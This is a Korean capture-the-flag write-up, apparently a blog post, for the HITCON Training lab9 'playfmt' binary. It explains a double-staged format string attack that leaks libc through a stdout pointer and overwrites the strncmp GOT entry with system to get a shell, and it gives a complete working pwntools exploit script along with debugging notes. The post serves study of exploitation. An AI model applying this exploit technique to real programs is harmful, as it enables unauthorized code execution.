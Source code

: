 ```yaml
---
layout: post
title: "[HITCON Training] lab9"
comments : true
category : War Game
---
```


# 문제
***

playfmt 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
playfmt: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=157fb5ec4301a1a1bddebb3c0f79c17305c57693, not stripped
```

취약점이 존재하는 함수

```
int do_fmt()
{
  int result; // eax

  while ( 1 )
  {
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  }
  return result;
}
```

printf(buf)에 format string bug가 존재한다. 하지만 buf가 stack이 아닌 bss 영역에 위치하고 있다. 따라서 lab7, lab8 처럼 내가 write하고 싶은 영역의 주소를 buf에 넣어도 해당 주소를 참조할 수 없다.

=> double staged format string attack을 이용해야 한다.
#### 1. first stage
스택에 있는 포인터 (스택 내의 주소를 가리키는 포인터)를 이용해서 해당 주소에 내가 덮어쓰고자 하는 주소를 write한다. 

#### 2. second stage 
first stage에서 write한 주소 (스택에 존재)를 참조해서 그 주소에 내가 원하는 값을 덮어쓴다.

## exploit 방법
#### 1. do_fmt 함수를 호출하기 전에 setvbuf를 호출하는데 이 때 인자로 들어간 stdout의 주소가 스택에 존재한다. 이 값을 출력함으로써 libc의 base_addr을 leak할 수 있다. (stdout의 offset은 readelf -s libc를 통해서 찾을 수 있다. 또는 gdb에서 x/a &stdout을 통해서 나온 주소에서 libc_base를 빼면 된다.)

이를 통해 system 함수의 주소를 알 수 있다.

#### 2. 스택에 있는 포인터를 이용해서 스택에 strncmp_got 주소, strncmp_got 주소 +2 값을 write한다. (system 함수의 주소가 0xf7로 시작하기 때문에 %hn을 통해 overwrite하려고 한다.)

#### 3. 2번에서 스택에 write한 주소를 참조해서 strncmp_got 영역에 system의 주소를 overwrite한다. 

#### 4. read 함수에서 buf에 "bin/sh\x00"을 넣어주면 shell을 얻을 수 있다. 

c.f) 이 문제는 esp 값을 잘 조절해줘서 printf를 호출할 때 마다 esp 값이 고정되어 있다. => 이거 원래 모든 바이너리에서 다 스택 정리를 이렇게 해주나? 

그리고 이 문제에서 buf(같은 영역에)에 계속 write를 해주기 때문에 이전에 보낸 문자열 보다 그 다음에 보낸 문자열이 더 짧으면 이전에 보낸 문자열까지 같이 printf한다. 그러면 %n이 이상한 곳을 참조해서 error가 발생하여 프로세스가 종료될 수도 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab9/playfmt"

p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

strcmp_got=0x804a020

p.recvuntil("=\n")
p.recvuntil("=\n")


pay="%8$x" # stdout leak
pay+="%"+str(strcmp_got-8)+"d"+"%6$n"
pay+="%c"*2+"%13$n"+"end"

p.send(pay)

IO_stdout=int(p.recv(8),16)
libc_base=IO_stdout-0x001b2d60
system=libc_base+libc.symbols['system']

time.sleep(20)
p.recvuntil("end")

system=hex(system)
system_high=int(system[2:6],16)
system_low=int(system[6:],16)

pay2="%08x"*8+"%"+str(system_low-64)+"d"+"%hn"+"%08x"*8+"%"+str(system_high-system_low-64)+"d"+"%hn"+"end"

p.send(pay2)

time.sleep(20)
p.recvuntil("end")

p.send("/bin/sh\x00")

p.interactive()
```


# 알게 된 것
***

#### 1. 혁쓰 추측 : 로컬에서 format string bug를 exploit 할 때 해당 프로세스 (pwntools의 process로 실행시킨 것)를 gdb에 attach하고 디버깅 하는 경우 printf를 통해 매우 많은 양을 출력하면 이걸 읽어줘야 프로세스가 멈추지 않고 제대로 실행된다. 출력을 읽어주지 않으니까 출력을 계속 하다가 출력 버퍼가 꽉 차서 더 출력을 하지 못하고 대기하고 있는듯... 

근데 이상한게 gdb에 프로세스를 attach하지 않고 그냥 처음부터 gdb로 프로그램을 디버깅 할 때는 출력을 읽어주지 않아도 프로세스가 멈추지 않고 실행된다. 
=> pwntools의 process 함수가 만든 통신은 출력이 매우 큰 경우에는 출력 버퍼에 있는 것을 읽어들였는지 안 읽어들였는지를 신경 쓰는듯?

이걸 처리하기 위해서 payload 마지막에 "EEEEE" 같은 특정 문자열을 넣어준다. 그 다음 time.sleep(30)을 통해서 해당 문자열이 다 출력될 때 까지 기다린 뒤 recvuntil("EEEEE")를 이용해서 출력한 것을 다 받아준다. recvuntil이 계속 데이터를 축적시키고 있는 놈이라 터질 수도 있기 때문에 아래 코드를 이용하는게 더 좋을 것 같다. 

```
While 'E' not in p.recv(0x1000):
    pass
```
리모트의 경우는 send를 하고 나면 이것에 대해서 따로 신경을 쓰지 않기 때문에 이러한 문제가 발생하지 않는다. 


#### 2. %n은 지금까지 출력한 문자열의 개수를 write하는 것이 아니라 %n이 들어간 printf 내에서 출력한 문자열의 총 개수를 write한다. 

```
printf(“%10c%n”, 1, &count);
printf(“%20c%n”, 1, &count2);
count1 = 10
count2 = 20 
```


#### 3. double staged format string attack의 second stage에서 $플래그를 통해 parameter를 참조할 때 수정된 값을 참조하지 못한다. 즉, second stage에서 %10$n으로 내가 수정한 주소에 overwrite를 하려고 하면 수정한 주소를 참조하는 것이 아니라 수정되기 전에 해당 위치에 있던 값을 참조하여 overwrite를 하게 된다. 

$flag는 $flag로 지정한 포맷 스트링의 값을 미리 가져와 놓고 사용하기 때문에 수정한 값을 가져오지 못하고 수정하기 전의 값을 참조하게 된다.

근데 또 이상한게 제일 마지막에 1개 쓰는 것은 수정한 값을 참조한다. 즉, second stage에서 payload를 %d %s %d %10$n으로 하면 이 때는 수정한 값을 참조한단다...

c.f) send()는 문자열 마지막에 NULL을 추가하지 않는다. (sendline은 "\x0a"를 추가한다.) 


